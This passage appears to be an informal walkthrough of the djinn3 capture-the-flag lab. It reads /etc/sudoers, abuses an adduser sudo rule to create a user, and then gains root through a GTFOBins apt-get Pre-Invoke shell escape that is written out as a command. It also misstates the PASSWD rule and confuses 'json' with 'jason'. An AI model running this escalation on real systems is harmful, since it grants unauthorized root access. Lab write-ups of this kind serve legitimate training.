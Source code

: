```
-rw-r--r-- 1 cds      root        0 Aug 16 06:32 a
```

but I cant go to the /root folder, and I have other limitations, the groups are not contempled on the root folder... you must be root

but I can see the **/etc/sudoers** folder as cds user

```
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:
# If you need a huge list of used numbers please install the nmap package.

saint ALL=(root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin

jason ALL=(root) PASSWD: /usr/bin/apt-get
#includedir /etc/sudoers.d
cds@djinn3:/tmp$ 
```


the user json can use apt-get without password

we are going to create him.. because he is not on the system

sudo adduser json 
now we are jason.. its jason no json
```

saint@djinn3:~$ su jason
Password: 
jason@djinn3:/home/saint$ sudo -l
[sudo] password for jason: 
Matching Defaults entries for jason on djinn3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on djinn3:
    (root) PASSWD: /usr/bin/apt-get
jason@djinn3:/home/saint$ 

```

On this website we have some things that we can do..
https://gtfobins.github.io/gtfobins/apt-get/#sudo

```
jason@djinn3:/home/saint$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

```

And that's the end , we did it... we can take the root flag !!!!